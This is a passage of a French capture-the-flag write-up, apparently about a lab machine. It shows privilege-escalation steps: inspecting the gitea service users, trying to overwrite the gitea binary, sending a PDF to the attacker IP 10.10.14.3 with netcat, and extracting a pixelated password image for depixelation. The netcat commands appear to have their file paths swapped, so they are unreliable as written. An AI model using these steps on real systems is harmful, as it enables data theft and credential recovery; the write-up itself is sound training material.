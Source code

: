 Une fois le flag utilisateur validé, on reporte notre attention sur les 2 services qui nous intéressent:

```bash
cat /etc/systemd/system/gitea.service | grep User=
User=git

cat /etc/systemd/system/multi-user.target.wants/gitea.service | grep User=
User=git
```

On voit que les 2 services sont exécutés par l'utilisateur git.
Il faudrait donc modifier `/usr/local/bin/gitea` qui est appelé par ces services.

Cependant, un test rapide nous informe qu'il est impossible de modifier le fichier:

```bash
echo test > /usr/local/bin/gitea
bash: line 19: /usr/local/bin/gitea: Text file busy
```

À ce stade-ci gitea semble être une fausse piste.
Faute de succès, on retourne donc dans le répertoire de junior.
N'ayant pas encore exploré le fichier `Using OpenVAS.pdf`, on le télécharge pour y jeter un coup d'oeil:

```bash
nc -lvp 1234 > "/home/junior/Using OpenVAS.pdf"
nc 10.10.14.3 1234 < "/home/kali/Using OpenVAS.pdf"
```

Celui-ci contient une commande et un mot de passe, mais il est pixelisé:

```bash
Hello junior,
We have recently installed OpenVAS on our server to actively monitor and identify potential security
vulnerabilities. Currently, only the root user, represented by myself, has the authorization to execute
OpenVAS using the following command:
`sudo /usr/sbin/openvas`
Enter password:
As part of your familiarization with this tool, we encourage you to learn how to use OpenVAS
effectively. In the future, you will also have the capability to run OpenVAS by entering the same
command and providing your password when prompted.
Feel free to reach out if you have any questions or need further assistance.
Have a great week,
Mr. Green
```

On extrait l'image du pdf avec pdfimages:

```bash
pdfimages -all 'Using OpenVAS.pdf' password
```

On essaye de dépixeliser l'image avec `depix`:
